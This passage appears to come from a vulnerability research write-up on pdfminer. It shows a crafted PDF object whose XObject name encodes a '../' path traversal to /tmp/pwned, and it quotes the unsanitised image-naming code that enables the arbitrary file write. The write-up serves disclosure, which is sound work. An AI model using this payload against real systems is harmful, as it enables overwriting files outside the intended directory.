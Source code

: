 If the XObject name in the PDF can be controlled, can we achieve controlled writing? Let me construct a malicious PDF to fulfill this idea

```
3 0 obj
<<
  /Type /Page
  /Resources <<
    /XObject <<
      /#2E#2E#2F#2E#2E#2F#2E#2E#2F#2E#2E#2Ftmp#2Fpwned 4 0 R
    >>
  >>
>>
...
```

path is successfully controlled to the specified content
![](Pdfminer-Vulnerability-Research/file-20251002213932068.png)
and the write succeeds
![](Pdfminer-Vulnerability-Research/file-20251002214639370.png)

```
name, path = self._create_unique_image_name(image, ".jpg")
  =>
	def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
        name = image.name + ext
        path = os.path.join(self.outdir, name)
        img_index = 0
        while os.path.exists(path):
            name = "%s.%d%s" % (image.name, img_index, ext)
            path = os.path.join(self.outdir, name)
            img_index += 1
        return name, path
    ...
    @staticmethod
    def _is_jbig2_iamge(image: LTImage) -> bool:
        filters = image.stream.get_filters()
        for filter_name, params in filters:
            if filter_name in LITERALS_JBIG2_DECODE:
```